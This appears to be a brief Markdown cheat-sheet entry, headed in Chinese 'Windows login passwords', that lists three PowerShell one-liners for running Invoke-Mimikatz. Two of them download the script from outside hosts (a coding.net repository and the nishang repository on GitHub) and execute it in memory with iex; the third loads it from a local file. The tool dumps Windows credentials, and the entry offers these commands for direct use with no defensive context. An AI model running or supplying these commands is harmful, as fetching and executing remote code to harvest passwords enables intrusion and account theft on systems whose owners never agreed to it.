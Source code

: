 ### Windows登陆密码
> Invoke-Mimikatz: `iex (New-Object Net.WebClient).DownloadString('https://xiaokaixuan.coding.net/p/scripts/d/scripts/git/raw/master/Powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> Invoke-Mimikatz: `iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');Invoke-Mimikatz`

> Invoke-Mimikatz: `iex ((Get-Content .\Invoke-Mimikatz.ps1) -Join "`n"); Invoke-Mimikatz`
